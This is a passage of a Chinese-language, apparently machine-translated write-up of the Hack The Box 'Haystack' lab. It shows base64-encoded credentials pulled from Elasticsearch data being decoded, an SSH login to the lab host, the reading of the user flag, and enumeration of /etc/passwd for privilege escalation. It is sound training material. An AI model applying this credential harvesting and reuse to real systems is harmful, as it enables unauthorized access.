 ```
cat quote.data.json | grep clave
```

输出是:

```
{"_index":"quotes","_type":"quote","_id":"111","_score":1,"_source":{"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="}}
{"_index":"quotes","_type":"quote","_id":"45","_score":1,"_source":{"quote":"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "}}
```

它们看起来像 base64。对它们进行解码会导致:

```
echo -n cGFzczogc3BhbmlzaC5pcy5rZXk= | base64 -d
pass: **spanish.is.key**echo -n dXNlcjogc2VjdXJpdHkg |base64 -d
user: **security**
```

使用 SSH 的凭证，它的工作原理是:

```
root@kali:~/Documents/htb/boxes/haystack# ssh security@10.10.10.115
security@10.10.10.115's password: Last login: Sat Nov  2 00:34:58 2019 from 10.10.14.33[security@haystack ~]$ id && uname -a
uid=1000(security) gid=1000(security) groups=1000(security) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
Linux haystack 3.10.0-957.1.3.el7.x86_64 #1 SMP Thu Nov 29 14:49:43 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

现在可以读取 user.txt:

```
[security@haystack ~]$ cat user.txt
**04d18bc79....**
```

# 获取根目录:

这个盒子的根部是凉的。它让我了解了一项我并不熟悉的技术。我通过检查/etc/passwd 来开始我的枚举，以检查我可以升级到的其他潜在用户:

```
[security@haystack etc]$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
security:x:1000:1000:security:/home/security:/bin/bash
elasticsearch:x:997:995:elasticsearch user:/nonexistent:/sbin/nologin
**logstash**:x:996:994:logstash:/usr/share/logstash:/sbin/nologin
nginx:x:995:993:Nginx web server:/var/lib/nginx:/sbin/nologin
```